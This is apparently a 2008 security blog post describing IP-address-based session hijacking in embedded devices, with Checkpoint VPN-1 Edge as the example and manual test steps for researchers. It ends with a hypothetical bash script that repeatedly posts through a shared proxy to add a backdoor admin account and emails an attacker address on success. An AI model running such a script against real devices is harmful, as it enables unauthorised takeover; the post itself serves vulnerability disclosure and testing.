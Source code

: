 ```yaml
---
title: Holes In Embedded Devices - IP-based session management
author: adrian-pastor
date: Tue, 29 Jan 2008 10:39:22 GMT
template: post.jade
category: fucked
---
```


Devices that implement IP address-based session management follow the algorithm described by the pseudocode shown below:

    if (submitted username and submitted password) == (credentials on device config)
    then
        do white-list user's source IP address
    

    The implications are obvious: devices located in environments in which different users share the same proxy are vulnerable to administrative session hijacking attacks. Please note that this session hijacking attack has nothing to do with the classic TCP hijacking attack in which sequence numbers are predicted by the attacker. Therefore, attacking a device susceptible to a "IP address-based session management" vulnerability does not require the attacker to intercept/sniff the traffic between the victim admin user and the target device. Rather, this attack performs session hijacking at the _HTTP application layer_ by providing the piece of information that is used by the target device to "know" who has access to authenticated resources on the web console: a trusted source IP address in this case.

    As an example, let's consider a corporate environment in which hundreds of users share the same proxy while browsing the web. Now, let's imagine that the administrator of the vulnerable device never checked the _bypass proxy server for local addresses_ option on his/her web browser. In other words, the administrator usually configures the vulnerable device via a proxy which is used by everyone else in the network.

    The result is that any malicious user using the same proxy as the administrator of the target device, can gain full administrative access via the web console by simply adding the device's IP address on the browser's address bar. Of course this attack would be more realistic by automating the process of hijacking the admin session on the web console and performing a malicious/interesting operation. i.e: backdoor the device by adding a new administrative account.

    Early versions of Checkpoint VPN-1 Edge, suffer from this vulnerability. As any other webapp pentester I started analyzing HTTP requests after logging in to the web console of this appliance. I quickly realized that no session IDs had been assigned to my HTTP session, neither was my browser submitting my username and password via common methods such as HTTP basic authentication. There was nothing being sent by my browser that would tell the VPN-1 Edge appliance that I was supposed to have access to the administrative functionalities. This led me to suspect that the appliance was simply trusting my IP address while the session hadn't yet timed out. So I simply performed the following checks which in order to test the potential "IP address-based session management" vulnerability:

1.  Opened a completely different browser rather than a new tab or window of the same browser. i.e.: Opera rather than Firefox
2.  Entered the URL of an administrative menu (i.e.: `http://192.168.10.1/network_settings.cgi`) on Opera and checked if I had access to it

    > Note: in the previous example, both Firefox and Opera were connecting via the same proxy, thus submitting HTTP requests to the VPN-1 appliance from the same source IP address.

    Since the firewall kindly offered me all the administrative functionalities which allowed me to change settings, it was obvious that the device was vulnerable.

    However, at this point I needed to make sure that other IP addresses other than my current one could not access the admin features while the session was considered active (if this was possible the issue would be even more severe). Therefore I simply removed the proxy settings from my browser and tried accessing a URL that would return an administrative page on the device. Accessing the firewall's web console from a different IP address - in this case the one assigned to my workstation - did _not_ work. Therefore, it could be concluded that while the administrative session is considered active by the firewall (i.e.: has not timed out yet), the firewall simply trusts HTTP requests that come from the IP address that has been white-listed.

    Provided that the VPN-1 appliance had also trusted other source IP addresses, while the admin session was active, then the appliance would suffer from a binary state session management vulnerability which will be explained in my following post. Feel free to use the aforementioned test steps to test your appliance. I've seen several devices affected by this issue, so developers of embedded software and security researchers are recommended to add this vulnerability type to their security testing checklist!

    An aspect that is important to mention regarding "IP-based session management" holes is weather or not the affected device implements an idle session timeout period. In case a session timeout mechanism is implemented, the timeout period (i.e.: 10 minutes) matters a lot, as it defines the window of opportunity to launch a session hijacking attack.

    A possible technique that can be used to exploit short timeout periods consists of writing a script that attempts to perform a configuration change on the vulnerable device every X minutes, where X is smaller than the idle session timeout period of the vulnerable device.

    The following is a hypothetical bash script that would attempt to add a new account on the vulnerable device every 5 seconds:

    #!/bin/bash

    target="192.168.10.1";
    email="attacker@evil-domain.foo"

    while true
    do
        if curl -s -x sharedproxy.company.foo:3128 -d "operation=addaccount&usr=hax0r&pwd=s3cr3tP455" $target | grep "account added successfully" > /dev/null
        then
            // log successful pwnage!!
            mail $email -s "backdoor account added successfully"
            exit 1
        fi
        sleep 5
    done

_Enjoy playing with IP-based session hijacking attacks! As you can see they are trivial to launch once the attacker has enough details of the vulnerable device._
